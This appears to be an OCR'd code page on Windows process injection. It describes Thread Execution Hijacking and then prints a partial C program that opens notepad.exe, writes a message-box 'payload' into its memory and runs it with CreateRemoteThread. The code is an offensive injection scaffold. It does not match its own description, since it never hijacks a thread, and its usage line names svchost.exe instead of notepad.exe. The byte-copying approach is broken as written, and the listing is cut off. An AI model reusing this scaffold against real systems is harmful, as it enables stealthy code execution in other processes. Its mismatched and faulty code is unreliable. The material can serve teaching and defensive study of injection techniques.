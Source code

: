 

```
hijack.exe svchost.exe
```


Thread Execution Hijacking is a technique where an attacker suspends a thread within a process and modifies its instruction pointer (typically the EIP register on x86 architectures) to point to malicious code. Once the thread is resumed, it will execute the malicious code.

```
#include <windows.h>
#include <stdio.h>

// Simple payload that shows a message box
void payload() {
    MessageBox(NULL, "Thread hijacked!", "Payload", MB_OK);
    ExitThread(0); // Exit the thread after executing the payload
}

int main() {
    DWORD processId = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    // Find the process ID of notepad.exe
    if (Process32First(hSnapshot, &pe)) {
        do {
            if (strcmp(pe.szExeFile, "notepad.exe") == 0) {
                processId = pe.th32ProcessID;
                break;
            }
        } while (Process32Next(hSnapshot, &pe));
    }
    CloseHandle(hSnapshot);

    if (processId == 0) {
        printf("notepad.exe not found.\n");
        return 1;
    }

    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (!hProcess) {
        printf("Failed to open target process.\n");
        return 1;
    }

    // Allocate memory in the target process for our payload
    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, 1024, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!pRemoteCode) {
        printf("Memory allocation failed.\n");
        CloseHandle(hProcess);
        return 1;
    }

    // Write our payload to the target process
    WriteProcessMemory(hProcess, pRemoteCode, payload, 1024, NULL);

    // Create a thread in the target process to execute our payload
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);
    if (!hThread) {
        printf("Thread creation failed.\n");
```